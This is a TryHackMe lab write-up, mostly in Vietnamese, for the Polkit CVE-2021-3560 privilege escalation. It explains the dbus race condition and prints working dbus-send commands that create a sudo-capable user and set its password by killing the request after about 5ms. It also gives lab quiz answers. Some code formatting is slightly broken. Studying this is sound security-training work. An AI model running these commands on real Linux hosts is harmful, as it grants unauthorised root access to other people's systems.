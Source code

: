 > # Polkit: CVE-2021-3560 - Tryhackme

# Summary
* [Task 2 - Info Important! About Dynamic Flags](#task-2---info-important-about-dynamic-flags)
* [Task 3 - Tutorial Background](#task-3---tutorial-background)
* [Task 4 - Tutorial Exploitation Process](#task-4---tutorial-exploitation-process)
* [Task 5 - Practical Do it for yourself!](#task-5---practical-do-it-for-yourself)

## Task 2 - Info Important! About Dynamic Flags
1. What is the URL of the website you should submit dynamic flags to?<br>
**Answer:** https://flag.muir.land/

## Task 3 - Tutorial Background
**Polkit là gì?**
Một phần của hệ thống ủy quyền Linux. Khi thực hiện một hành động được yêu cầu một quyền hạn cao hơn, policy toolkit có thể được sử dụng để xác định liệu bạn có đủ đặc quyền hay không. Nó được tích hợp trong `systemd` và có thể cấu hình dễ hơn so với hệ thống sudo truyền thống. Do đó, nó thỉnh thoảng được gọi như là "sudo của systemd". 

Khi tương tác với polkit chúng thể sử dụng `plexec` thay vì `sudo`. Ví dụ, thử chạy lệnh `useradd` thông qua `pkexec` trong phiên GUI sẽ hiển thị một pop-up hỏi tài khoản: `pkexec useradd test1234`

**Cách polkit bị khai thác?**
Bằng cách thủ công gửi thông điệp dbus đến dbus-daemon (một API cho phép các tiến trình khác nhau khả năng giao tiếp với những cái khác), sau đó ngắt yêu cầu trước khi nó hoàn toàn hoàn thành, chúng ta có thể lừa polkit ủy quyền cho lệnh. Nếu bạn không quen với deamons, chúng là những dịch vụ chạy nên trên Linux. dbus-daemons là một chương trình chạy nền gửi thông điệp giữa các ứng dụng.

Lỗ hổng có thể được quy ra các bước:
- Kẻ tấn công thủ công gửi các thông điệp dbus đến tài khoản daemon để yêu cần tạo một người dùng mới với đặc quyền sudo (sau đó, mật khẩu được đặt cho người dùng mới). Thông báo này được cấp một ID nhất định bởi dbus-daemon.

- Kẻ tấn công ngắt thông điệp sau khi polkit nhận được nhưng trước khi polkit kịp xử lý thông điệp đó. Việc này làm gãy quá trình tạp ID riêng biệt.

- Polkit gửi yêu cầu đến dbus-daemon hỏi về ID của người dùng đã gửi thông điệp, thao khảo ID của thông điệp (đã bị xóa).

- dbus-daemon không thể tìm được ID thông điệp vì nó đã bị xóa ở bước 2. nó xử lý lỗi bằng cách phản hồi với một mã lỗi.

- Polkit xử lý lỗi và thay thế 0 đại diện cho ID, là tài khoản root của máy. 

- Nghĩ đó là người dùng root yêu cầu hành động, polkit cho phép yêu cầu đi qua mà không gặp trở ngại gì.

Tóm lại, bằng cách làm mất đi ID trước khi dbus-daemon có cơ hội gửi cho pokit ID đúng, khai thác việc xử lý tệ trong pokit để lừa nó nghĩ rằng yêu cầu này được thực hiện bởi người dùng đặc quyền.

1. In what version of Ubuntu's policykit-1 is CVE-2021-3560 patched?<br>
   **Answer:** 0.105-26ubuntu1,

1. What program can we use to run commands as other users via polkit?<br>
    **Answer:** pkexec

## Task 4 - Tutorial Exploitation Process
Thêm một người dùng `attacker` với đặc quyền sudo, và một mật khẩu là `Expl01ted`.

Thông điệp đầu tiên cần gửi:
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Gửi thông điệp đến dbus đến người dùng daemon, in phản hồi và tạo một người dùng mới là `attacker` với mô tả "Pentester Account" và thành viên của nhóm sudo được thiết lập là true.

Thông điệp thứ hai sẽ thiết lập mật khẩu cho tài khoản mới:
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'
```

Một lần nữa gửi thông tin đến người dùng daemon, yêu cầu thay đổi mật khẩu cho người người dùng với ID chỉ định, một mật khẩu hash cần được sinh thủ công, và gợi ý cho câu hỏi.

Để xác định thời gian lệnh chạy bao lâu đặt lên time phía trước.
```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Chúng ta cần phải ngắt lệnh trong khoảng thời gian trước khi nó được chạy xong. Với máy ảo được cung cấp nó khoảng 5ms

```

```

Ngủ 0.005s sau đó tắt tiến trình trước. Điều này thành công tạo người dùng mới, thêm chúng vào nhóm sudo.

Sử dụng `openssl` để tạo sha512crypt hash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
Tiếp tục lệnh tạo mật khẩu để hoàn tất quá trình trên.
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

## Task 5 - Practical Do it for yourself!
Use above commands to exploit provided machine.<br>
![](images/1.png)<br>
Submit it on [https://flag.muir.land/](https://flag.muir.land/) to get the flag.<br>
![](images/2.png)<br>
**Answer:** <redacted>


